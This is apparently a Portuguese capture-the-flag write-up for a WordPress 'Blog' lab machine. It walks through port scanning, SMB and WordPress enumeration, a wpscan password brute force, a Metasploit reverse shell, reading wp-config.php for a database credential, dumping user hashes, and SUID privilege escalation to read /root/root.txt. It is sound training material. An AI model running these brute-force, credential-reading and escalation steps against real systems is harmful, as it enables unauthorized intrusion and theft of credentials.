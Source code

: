 # Blog

* ### Scan de portas - Verificando quais portas estão abertas.
```bash
rustscan -a 10.10.73.187 --ulimit 5000
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ee9a8a40-f709-4863-8efc-b79cc3a42084)

* ### Verificando serviços que estão rodando nas portas abertas.
```bash
nmap -A -p 22,80,139,445 10.10.73.187
```
![image](https://github.com/lufffe/Writeups/assets/90646635/5ab223e1-a84c-46d4-83f2-48a887d91fa1)

* Listando diretórios no SMB
```bash
smbclient -L \\10.10.73.187
```
![image](https://github.com/lufffe/Writeups/assets/90646635/9558961c-1c0f-45bb-96e6-b39bfcf3ab57)

* Verificando o que tem no SMB
```bash
smbclient //10.10.73.187/
```
![image](https://github.com/lufffe/Writeups/assets/90646635/79dc94a6-7d8a-4eb3-a4f5-83a68f39563a)

* Enumerando possiveis coisas no Wordpress, com o wpscan, e acabei achando 2 usuários.
```bash
wpscan --url http://blog.thm --enumerate
```
![image](https://github.com/lufffe/Writeups/assets/90646635/e51ea86c-0bf6-4fc5-aef7-2b49f24128cf)

* Brute Force para encontrar a senha de um dos usuários encontrados.
```bash
wpscan --url http://blog.thm --wp-content-dir wp-admin --usernames kwheel,bjoel --passwords rockyou.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ae734f8a-1312-421a-bdad-29255e52edb1)

* Joguei no Google para encontrar algum exploit sobre o Wordpress.
![image](https://github.com/lufffe/Writeups/assets/90646635/26d5cf30-9b3d-42d3-9cc0-f148adea2c58)

>https://www.exploit-db.com/exploits/49512

* Por algum motivo o shell não estava conectando então tentei outra que foi o nesse outro pelo Metasploit.

* Resolvi tentar o metasploit
![image](https://github.com/lufffe/Writeups/assets/90646635/223e221c-1eaf-47fd-8ea6-7777cbce5665)

* E com esse exploit eu conseguir o reverse shell
![image](https://github.com/lufffe/Writeups/assets/90646635/cfe7a377-2878-4eaf-8775-cf6f2acfc0ab)

* No wp-config , encontrei uma credencial do BD.
```bash
cat wp-config.php
```
![image](https://github.com/lufffe/Writeups/assets/90646635/4aa1cf31-1538-48e5-b436-a5745c581ba1)

wordpressuser / LittleYellowLamp90!@

* Verificando coisas interessantes no mysql
```bash
mysql -u wordpressuser -p LittleYellowLamp90!@
```

```bash
show databases;
```

```bash
use blog;
```

```bash
show tables;
```

* Listando dados dos usuários 
```bash
select * from wp_users;
```
![image](https://github.com/lufffe/Writeups/assets/90646635/2fade2f3-322f-4821-b634-e6f1b5a9d2bb)

$P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/

* E não conseguir quebrar, 2 wordlist não conseguiram encontrar.
  
```bash
hashcat -a 0 -m 400 hash rockyou.txt
```

* Resolvi buscar possibilidades, encontrei algo diferente e encontrei esse binário.
```bash
**find / -perm -4000 2>/dev/null**
```
![image](https://github.com/lufffe/Writeups/assets/90646635/59c32e1e-2efb-4b37-8e4b-97446c954b10)

* Fui no GTFobins e procurei como poderia usar para escalar previlégios
![image](https://github.com/lufffe/Writeups/assets/90646635/1b8f43cc-98a6-499b-ac0d-c85ec716fa2a)


```bash
LFILE=/root/root.txt
```
```bash
checker $LFILE
```

* E deu certo, conseguir pegar o usuário root.

![image](https://github.com/lufffe/Writeups/assets/90646635/82814441-97ef-465f-9ad4-110e7ddfcdd0)

* Onde a flag está escondida
  
![image](https://github.com/lufffe/Writeups/assets/90646635/a701af91-054f-47ad-bae2-791a73e4c1a9)

```bash
cat /root/root.txt
```
